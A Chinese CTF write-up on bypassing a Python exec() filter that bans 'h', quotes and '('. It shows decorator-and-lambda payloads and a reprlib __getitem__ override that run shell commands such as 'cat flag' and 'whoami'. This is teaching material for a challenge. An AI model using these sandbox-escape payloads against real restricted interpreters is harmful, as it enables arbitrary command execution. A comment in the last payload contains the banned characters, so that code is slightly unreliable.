 # python受限的任意代码执行与黑魔法
## 起因
在NCTF/NJUPTCTF 2021中有一道misc题: 
```python
我们可爱的Hex酱又有了一个强大的功能，可以去执行多行语句惹~
但是为了防止有些居心叵测的人，我们专门把括号，单双引号，都过滤掉，噢对不准色色，所以也不准出现h哟~

Ubuntu Python3.6.9

快去找Hex酱(QQ:2821876761)私聊吧
附件：

https://nctf.slight-wind.com/misc/hex/runner.py
https://attachment.h4ck.fun:9000/misc/hex/runner.py
```

其中附件内容如下:
```python
import sys
from base64 import b64decode

code = sys.argv[1]

try:
    data = b64decode(code.encode()).decode()
except:
    exit(0)

for c in 'h"\'(':
    if c in data: exit(0)

exec(data)
```

这其实就是一个受限制的python代码执行，不能使用h，单引号，双引号，左括号字符。我们知道在SSTI中我们如果禁用了小括号的话是没办法任意命令执行的，但是在任意python代码执行的情况下还有转机吗？

## 正解: 装饰器
正解不是本篇文章主要讨论的内容，这里也介绍一下，其实就是python装饰器的技巧，一个简单的python装饰器如下:
```python
def log(func):
    def wrapper(*args, **kw):
        print("here is a log")
        func()
    return wrapper


@log
def func():
    print("hello world")


func()
```
这里的`@log`实际上是一个语法糖，他等价于`func=log(func)`，也就是说这里隐式包含了函数调用，同时**装饰器是可以嵌套的**，并且能够用于**装饰类**。

但是这里我们依然用到了小括号，我们怎样才能避免这个情况呢？实际上是用到了python的(残废)匿名函数，一个简单的python匿名函数如下:

```python
func = lambda _: "system" # 意思是无论传入什么参数最终都会返回system这个字符串
print(func("anything")) # system
```

所以我们可以使用嵌套的装饰器去调用`os.system()`, 例如:
```python
from os import system
c = lambda _: "whoami"

@system
@c
class x:pass
```
实际上调用的是`system(c(x))`，而c函数不管传入什么都会返回"whoami"这个字符串，最终实现命令执行

这里还有最后一个问题是如何构造字符串，因为我们是没办法使用单引号或者双引号的，所以我们需要利用一些python原生的字符串，比如某些类的`__doc__`,比如字典(dict)的doc如下:
```text
dict() -> new empty dictionary
dict(mapping) -> new dictionary initialized from a mapping object's
    (key, value) pairs
dict(iterable) -> new dictionary initialized as if via:
    d = {}
    for k, v in iterable:
        d[k] = v
dict(**kwargs) -> new dictionary initialized with the name=value pairs
    in the keyword argument list.  For example:  dict(one=1, two=2)
```
这里面基本上存在我们需要的英文字符，可以使用`{}.__doc__[index]`的形式获取字符串，所以最终的exp可以是:
```python
from os import system
n = {}.__doc__
f = lambda _: n[2]+n[80]+n[55]+n[6]+n[75]+n[69]+n[80]+n[88]  # cat flag
@system
@f
class x:pass
```

## 寻找非预期
如果我们不使用装饰器的方法，这道题目还有做法吗？换句话说假如我们不允许代码中存在@这个字符，这道题还能够解吗？答案是肯定的。

所以我们的题目变成:
```python
import sys
from base64 import b64decode

code = sys.argv[1]

try:
    data = b64decode(code.encode()).decode()
except:
    exit(0)

for c in 'h@"\'(':
    if c in data: exit(0)

exec(data)
```

这里我们重新思考一下，我们在没有小括号使用的情况下，还有什么能够使用呢？答案是中括号，我们知道，如果我们尝试使用中括号根据索引去获取对象时，实际上是调用了类中的`__getitem__`方法，一个简单的示例如下:
```python
class C:
    def __getitem__(self, key):
        return str(key) + "111"

c = C()
print(c["qwe"])  # qwe111
```
可以看到这里的`__getitem__`魔术方法是一个特殊的方法，当我们调用`c["anything"]`的是时候实际上调用了`c.__getitem__("qwe")`，这样我们即使没有小括号也能够进行函数调用。如果我们可以覆盖某些类的`__getitem__`方法为一些自带方法的话，我们就可以实现命令执行了。

### 失败的尝试: 覆盖自带类的__getitem__
我的第一个想法是覆盖python自带类的`__getitem__`方法，例如list或者dict，但是经过测试之后发现这是行不通的:
![](https://gitee.com/guuest/images/raw/master/img/20220104104649.png)

所以我们的目的就是要找到一个类能够覆盖其`__getitem__`并且能获取到这个**类的实例**，这里的重点是获取到类的实例，因为我们就算可以定义一个自定义的类，也无法获取这个类的实例，因为**获取类的实例也需要小括号**

### 成功的尝试: python标准库里的魔术
我们尝试从python标准库中找到一个符合我们标准的库，python的标准库参考[这里](https://docs.python.org/zh-cn/3/library/index.html)

在一番寻找后，我们将目光投向`reprlib`这个库，它完美符合了我们的要求!
![](https://gitee.com/guuest/images/raw/master/img/20220104110102.png)
一个简单的示例如下:
```python
import reprlib
reprlib.Repr.__getitem__=exec
a=reprlib.aRepr
a["print('whoami')"]
```

所以我们最终的exp构造大致如下:
1. 从标准库中引入reprlib这个库
2. 覆盖`reprlib.Repr`的`__getitem__`方法为chr方法
3. 通过`reprlib.aRepr`中括号调用构造任意字符串
4. 再次覆盖为`exec`方法
5. 真正意义上的python代码执行

这里需要注意的是由于h也被禁用了，所以我们没有办法直接`reprlib.Repr.__getitem__=chr`，需要走一下弯路，利用builtins库的`__dict__`再利用字典的`__doc__`，我们最终得到一个非常酷的exp如下:
```python
data = """
import reprlib
import builtins
__=reprlib.aRepr
reprlib.Repr.__getitem__ = builtins.__dict__[{}.__doc__[2]+{}.__doc__[280]+{}.__doc__[28]]  # chr
exp=__[95]+__[95]+__[105]+__[109]+__[112]+__[111]+__[114]+__[116]+__[95]+__[95]+__[40]+__[39]+__[111]+__[115]+__[39]+__[41]+__[46]+__[115]+__[121]+__[115]+__[116]+__[101]+__[109]+__[40]+__[39]+__[119]+__[104]+__[111]+__[97]+__[109]+__[105]+__[39]+__[41] // __import__('os').system('whoami')
reprlib.Repr.__getitem__ = exec
reprlib.aRepr[exp]
"""

for c in 'h@"\'(':
    if c in data:
        print(c)
        exit(0)

exec(data)
```